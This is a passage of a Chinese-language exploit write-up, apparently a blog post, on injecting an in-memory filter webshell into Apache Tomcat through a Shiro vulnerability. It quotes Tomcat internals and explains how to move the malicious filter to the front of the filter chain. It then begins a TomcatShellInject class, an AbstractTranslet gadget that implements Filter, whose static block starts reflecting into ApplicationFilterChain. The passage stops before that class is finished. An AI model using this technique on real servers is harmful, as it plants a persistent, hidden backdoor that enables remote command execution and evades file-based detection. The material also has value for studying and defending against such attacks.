 ```java
          ApplicationFilterConfig filterConfig = new ApplicationFilterConfig(this, (FilterDef)entry.getValue());
          this.filterConfigs.put(name, filterConfig);
        } catch (Throwable var8) {
          Throwable t = ExceptionUtils.unwrapInvocationTargetException(var8);
          ExceptionUtils.handleThrowable(t);
          this.getLogger().error(sm.getString("standardContext.filterStart", new Object[]{name}), t);
          ok = false;
        }
      }

      return ok;
    }
}
```

没错，它遍历了filterDefs，一个个实例化成ApplicationFilterConfig添加到filterConfigs了。

这两个问题解决了，是不是就完成了呢，其实还没有，还差一个优化的地方，因为我们想要把filter放到最前面，在所有filter前执行，从而解决shiro漏洞的问题。

也简单，我们看回org.apache.catalina.core.ApplicationFilterFactory#createFilterChain的代码：


```java
// Add the relevant path-mapped filters to this filter chain
for (int i = 0; i < filterMaps.length; i++) {
    if (!matchDispatcher(filterMaps[i] ,dispatcher)) {
        continue;
    }
    if (!matchFiltersURL(filterMaps[i], requestPath))
        continue;
    ApplicationFilterConfig filterConfig = (ApplicationFilterConfig)
        context.findFilterConfig(filterMaps[i].getFilterName());
    if (filterConfig == null) {
        // FIXME - log configuration problem
        continue;
    }
}
```

创建的顺序是根据filterMaps的顺序来的，那么我们就有必要去修改我们添加的filter顺序到第一位了，最后，整个第二步骤的代码如下：


```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import java.io.IOException;
import javax.servlet.Filter;
import javax.servlet.FilterChain;
import javax.servlet.FilterConfig;
import javax.servlet.ServletException;
import javax.servlet.ServletRequest;
import javax.servlet.ServletResponse;

/**
 * @author threedr3am
 */
public class TomcatShellInject extends AbstractTranslet implements Filter {

    static {
        try {
            /*shell注入，前提需要能拿到request、response等*/
            java.lang.reflect.Field f = org.apache.catalina.core.ApplicationFilterChain.class
```